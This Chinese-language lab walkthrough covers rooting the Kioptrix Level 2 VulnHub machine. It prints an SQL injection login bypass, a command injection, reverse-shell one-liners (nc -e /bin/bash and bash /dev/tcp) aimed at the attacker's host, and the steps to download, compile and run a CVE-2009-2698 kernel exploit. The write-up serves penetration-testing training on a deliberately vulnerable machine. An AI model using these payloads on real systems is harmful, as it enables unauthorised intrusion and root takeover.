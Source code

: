 # Kioptrix2-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/kioptrix-level-11-2,23/

**Description**

This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

Source: http://www.kioptrix.com/blog/?page_id=135

Source: http://www.kioptrix.com/blog/?p=49

This is the second release of #2. First release had a bug in it with the web application

2012/Feb/09: Re-releases

2011/Feb/11: Original Release

**知识点**
- SQL 注入
- 命令执行
- CVE-2009-2698

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix2/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.145` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.145
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix2/2.png)

开放端口数蛮多的,SSH、http、https、Mysql,还有一个较为少见的 631，运行的 CUPS 服务，CUPS 也有许多漏洞

这里 nmap 扫描 mysql 提示未授权,不过我测试并不能连接,从 web 先入手

---

# 中期-漏洞利用

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix2/3.png)

看着就像有 SQL 注入的样子,随便试了下注入就进去了
```
账号 随便
密码 1' or '1'='1
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix2/4.png)

看起来有个命令注入,简单尝试发现没有过滤
```
;ip a
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix2/5.png)

下面直接回弹 shell，kali 监听
```
nc -lvp 4444
```

执行命令
```
;nc -nv 192.168.141.134 4444 -e /bin/bash
```
没成功,估计没有 nc,试试直接 bash 回弹
```
;bash -i >& /dev/tcp/192.168.141.134/4444 0>&1
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix2/6.png)

回弹成功,果然没有 nc 程序,下面测试提权

---

# 后期-提权

简单收集下信息
```
cat /etc/*-release
uname -a
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix2/7.png)

centos 4.5,可以试试 CVE-2009-2698，https://www.exploit-db.com/exploits/9542

这里直接靶机下载或kali下载再传上去都行,自选

kali 下载完启 HTTP
```bash
wget https://www.exploit-db.com/download/9542
mv 9542 9542.c
python -m SimpleHTTPServer 8080
```

靶机下载 kali 上的 poc
```bash
cd /tmp
wget 192.168.141.134:8080/9542.c
gcc 9542.c
ls
./a.out
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix2/8.png)

提权成功,感谢 Kioptrix Team 制作靶机
